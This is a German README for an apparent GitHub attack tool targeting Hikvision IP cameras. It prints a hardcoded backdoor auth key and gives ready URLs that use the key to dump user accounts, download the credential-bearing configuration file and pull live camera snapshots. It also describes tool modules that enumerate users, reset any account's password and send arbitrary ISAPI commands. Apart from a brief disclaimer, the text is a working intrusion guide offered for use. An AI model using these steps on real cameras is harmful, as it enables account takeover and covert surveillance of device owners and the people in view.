 # hikvision-sdk-cam

English version can be found [here](https://github.com/MatrixEditor/hikvision-sdk-cam/blob/main/eng.md).

<b>
DISCLAIMER: Alle informationen, die hier gepostet werden/ wurden, sind öffentlich auf anderen Seiten zugänglich. Dieses Repository bietet nur einen generellen Überblick über die Möglichkeitenvon Übergriffen, die durch die gebotenen Schwachstellen entstanden sind.
</b>

## Backdoor

Es ist schon seit ein paar Jahren bekannt, dass es eine Backdoor in den Hikvision-Kameras gibt. Diese hätte geheim gehalten werden können, hätte man den Authentifizierungsschlüssel nicht in ein open-source Passwort-Reset-Tool geschrieben (Stichwort: HikPassword-Helper). Der Schlüssel lautet:

    AUTH_KEY = 'YWRtaW46MTEK'

Mithilfe dieses Schlüssels ist der Zugriff auf die interne Web-API der Kamera grundsätzlich möglich. Die Befehle dieser API sind in der Datei 'websdk.js' zu finden (einfach über einen beliebigen Browser die login-Seite überprüfen). Ein paar stehen mit Erklärung dazu in der Datei [commands.py](https://github.com/MatrixEditor/hikvision-sdk-cam/blob/main/src/base/commands.py).

## Zugriff erhalten

Um nun Zugriff auf das Gerät zu bekommen, gibt es verschiedene Wege, die recht einfach umzusetzen sind:

1. Die 'configData'-Datei herunterladen, entschlüsseln und nach den Credentials für registrierten Accounts suchen (Stichwort: hikvision-decryptor github)

    LINK: http:// [IP-ADDR] /System/configurationFile?auth=YWRtaW46MTEK

2. Die registrierten Nutzer/Accounts über einen Link laden und für einen das Passwort ändern (Anleitung dazu weiter unten)

### Links ohne Authentifizierung

Dieser Link zeigt Informationen zu allen registrierten Nutzern an:

    * http://<IP-ADDRESS>/Security/users?auth=YWRtaW46MTEK oder http://<IP-ADDRESS>/ISAPI/Security/users?auth=YWRtaW46MTEK

Hiermit kann ein (live)-Standbild der Kamera übertragen werden:

    *http://<IP-ADDRESS>/onvif-http/snapshot?auth=YWRtaW46MTEK

By the way: Die meisten API-Abfragen, siehe [commands.py](https://github.com/MatrixEditor/hikvision-sdk-cam/blob/main/src/base/commands.py) können auch mit diesem AUTH_KEY getätigt werden.

URL für einen Livestream (mit VLC-Player oder QuickTime-Player wiedergeben; der AUTH_KEY funktionier hierbei nicht):

    rtsp://<UNAME>:<PWD>@192.168.189.5:554/Streaming/channels/1/

## Main.py

Der Aufbau dieses Programms ist gleich dem in dem Repository 'Frontier-Silicon-Radio'. Nach dem Start können nur noch die Befehle 'use', 'quit' und 'modules' benutzt werden:

* use [module-name] : nutzt das angegebene modul (die Namen der Module können mit 'modules' ausgegeben werden)
* modules : gibt die Namen aller geladenen Module aus
* quit : beendet das Programm

Wählt man nun ein Modul aus, wird dies im Konsolen-Prompt mit angegeben. Jetzt können nur noch die Befehle 'set', 'run', 'show_options' und 'back' benutzt werden:

* set [option] [value] : Setzt die gewählte Option auf den gegebenen Wert
* show options : gibt eine Liste mit allen nötigen Parametern aus
* run : startet das modul
* back : geht in das Startmenü zurück.

## Module

### /injection/password_changer

Mit diesem kleinen Script kann das Passwort eines bestimmten Nutzers/Accounts geändert werden (hierzu benötigt man lediglich den AUTH_KEY). Um dies zu tun benötigt das Programm folgende eingaben:

    * IP-Addresse der Kamera,
    * den Usernamen der Accounts,
    * das neue Passwort,
    * und die User-ID des Accounts.

### /injection/user_encounter

Hiermit können alle registrierten Nutzer mit ihrer ID, dem Usernamen und ihrem Rang ausgelesen werden. Um dies zu tun benötigt das Programm folgende eingaben:

    * IP-Adresse der Kamera

### /isapi/command_executor

Wie der Name dieses Moduls schon verrät, versucht hier das Programm eine HTTP-GET Anfrage zu machen um eine API-Abfrage zu tätigen. Dazu benötigt das Programm folgende eingaben:

    * IP-Addresse der Kamera,
    * den Befehl, angefangen mit einem  '/'

Falls hierbei keine Rückmeldung erscheint, einfach den Link im Browser eingeben und schauen, ob der Link doch funktioniert. Aus irgendwelchen Gründen schafft es die 'requests'-API nicht, die Authentifizierung der Seiten mit dem AUTH_KEY nicht, der Browser (getestet mit Chrome und Firefox) schon.

 
